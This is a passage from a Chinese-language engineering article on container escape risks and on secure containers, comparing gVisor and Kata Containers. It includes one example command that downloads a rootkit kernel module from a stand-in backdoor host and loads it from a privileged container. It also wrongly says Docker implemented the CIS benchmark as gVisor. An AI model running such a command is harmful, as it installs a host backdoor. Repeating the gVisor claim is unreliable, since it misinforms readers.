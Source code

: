 **3. 不安全部署（配置）**

在实际中，我们经常会遇到这种状况：不同的业务会根据自身业务需求提供一套自己的配置，而这套配置并未得到有效的管控审计，使得内部环境变得复杂多样，无形之中又增加了很多风险点。最常见的包括：

- 特权容器或者以root权限运行容器；
- 不合理的Capability配置（权限过大的Capability）。

面对特权容器，在容器内简单地执行一下命令，就可以轻松地在宿主机上留下后门：

```
$ wget https://kernfunny.org/backdoor/rootkit.ko && insmod rootkit.ko
```

目前在美团内部，我们已经有效地收敛了特权容器问题。

这部分业界已经给出了最佳实践，从宿主机配置、Dockerd配置、容器镜像、Dockerfile、容器运行时等方面保障了安全，更多细节请参考[Benchmark/Docker](https://www.cisecurity.org/benchmark/docker/)。同时Docker官方已经将其实现成自动化工具（[gVisor](https://gvisor.dev/docs/)）。

**安全实践**

为解决上述部分所阐述的容器逃逸问题，下文将重点从隔离（安全容器）与加固（安全内核）两个角度来进行讨论。

**安全容器**

安全容器的技术本质就是隔离。gVisor和Kata Container是比较具有代表性的实现方式，目前学术界也在探索基于Intel SGX的安全容器。

简单地说，gVisor是在用户态和内核态之间抽象出一层，封装成API，有点像user-mode kernel，以此实现隔离。Kata Container采用了轻量级的虚拟机隔离，与传统的VM比较类似，但是它实现了无缝集成当前的Kubernetes加Docker架构。我们接着来看gVisor与Kata Container的异同。

**Case 1: gVisor**

gVisor是用Golang编写的用户态内核，或者说是沙箱技术，它主要实现了大部分的system call。它运行在应用程序和内核之间，为它们提供隔离。gVisor被使用在Google云计算平台的App Engine、Cloud Functions和Cloud ML中。gVisor运行时，是由多个沙箱组成，这些沙箱进程共同覆盖了一个或多个容器。通过拦截从应用程序到主机内核的所有系统调用，并使用用户空间中的Sentry处理它们，gVisor充当guest kernel的角色，且无需通过虚拟化硬件转换，可以将它看做vmm与guest kernel的集合，或是seccomp的增强版。

![img](https://mmbiz.qpic.cn/mmbiz_png/hEx03cFgUsVZf2yraXehxJAzvVYUrUWjboHacZMDIQXKXnQHZIf1RNoe6nVL2kgyl7U1eexDEqa8hxRaWrT3Zw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)图5 gVisor架构图 

**Case 2: Kata Container**

Kata Container的Container Runtime是用hypervisor ，然后用hardware virtualization实现，如同虚拟机。所以每一个像这样的Kata Container的Pod，都是一个轻量级虚拟机，它拥有完整的Linux内核。所以Kata Container与VM一样能提供强隔离性，但由于它的优化和性能设计，同时也拥有与容器相媲美的敏捷性。

![Kata Container 架构图（图片来自Katacontainers.io）](https://mmbiz.qpic.cn/mmbiz_jpg/hEx03cFgUsVZf2yraXehxJAzvVYUrUWjribgyNKxibBcKNBCvicicHJ1RDnsuwylYIF2TOvBf4nnUTaBQvQWnlx1sA/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)图6 Kata Container 架构图（图片来自Katacontainers.io）

Kata Container在主机上有一个kata-runtime来启动和配置新容器。对于Kata VM中的每个容器，主机上都有相应的Kata Shim。Kata Shim接收来自客户端的API请求（例如Docker或kubectl），并通过VSock将请求转发给Kata VM内的代理。Kata容器进一步优化以减少VM启动时间。使用QEMU的轻量级版本NEMU，删除了约80％的设备和包。VM-Templating创建运行Kata VM实例的克隆，并与其他新创建的Kata VM共享，这样减少了启动时间和Guest VM内存消耗。Hotplug功能允许VM使用最少的资源（例如CPU、内存、virtio块）进行引导，并在以后请求时添加其他资源。

**gVisor VS Kata Container**

![img](https://mmbiz.qpic.cn/mmbiz_png/hEx03cFgUsVZf2yraXehxJAzvVYUrUWj7bXMkDUic2L21UC27WgCSKsuSBNCG6dGCiaRzic42wXblAgZLrEFWbw5w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

在两者之间，笔者更愿选择gVisor，因为gVisor设计上比Kata Container更加的“轻”量级，但gVisor的性能问题始终是一道暂时无法逾越的“天堑”。综合二者的优劣，Kata Container目前更适合企业内部。总体而言，安全容器技术还需做诸多探索，以解决不同企业内部基础架构上面临的各种挑战。

**安全内核**

众所周知，Android由于其开源特性，不同厂商都维护着自己的Android版本。因为Android内核态代码来自于Linux kernel upstrem，当一个漏洞产生在upstrem内核，安全补丁推送到Google，再从Google下发到各大厂商，最终到终端用户。由于Android生态的碎片化，补丁周期非常之长，使得终端用户的安全，在这过程中始终处于“空窗期”。当我们把目光重新焦距在Linux上，它也同样存在类似的问题。
